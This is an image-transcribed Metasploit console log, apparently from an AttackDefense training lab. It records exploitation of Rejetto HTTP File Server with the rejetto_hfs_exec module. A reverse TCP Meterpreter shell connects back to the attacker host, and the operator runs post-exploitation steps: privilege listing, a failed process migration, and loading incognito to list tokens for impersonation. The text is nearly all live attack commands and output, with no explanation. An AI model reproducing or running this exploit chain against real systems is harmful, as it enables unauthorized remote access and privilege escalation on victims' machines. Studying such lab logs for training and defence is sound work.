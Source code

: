 ```
[*] Started reverse TCP handler on 10.10.12.2:4444 
[*] Using URL: http://0.0.0.0:8080/q8meS6jI
[*] Local IP: http://10.10.12.2:8080/q8meS6jI
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /q8meS6jI
[*] Sending stage (175174 bytes) to 10.5.24.118
[!] Tried to delete %TEMP%\BoxpFqDmrIuFj.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.12.2:4444 -> 10.5.24.118:49742) at 2023-07-18 14:47:57 +0530
[*] Server stopped.

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
meterpreter > pgrep explorer
3996
meterpreter > migrate 3996
[*] Migrating from 3220 to 3996...
[-] core_migrate: Operation failed: Access is denied.
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeSystemtimePrivilege
SeTimeZonePrivilege

meterpreter > load incognito 
Loading extension incognito...
[*] 10.5.24.118 - Meterpreter session 1 closed.  Reason: Died
^C[-] Error running command load: Interrupt 
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.12.2:4444 
[*] Using URL: http://0.0.0.0:8080/UasxHDEzV
[*] Local IP: http://10.10.12.2:8080/UasxHDEzV
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /UasxHDEzV
[*] Sending stage (175174 bytes) to 10.5.24.118
[!] Tried to delete %TEMP%\SHNbrYROSG.vbs, unknown result
[*] Meterpreter session 2 opened (10.10.12.2:4444 -> 10.5.24.118:49757) at 2023-07-18 14:50:00 +0530
[*] Server stopped.

meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > list_tokens -u
```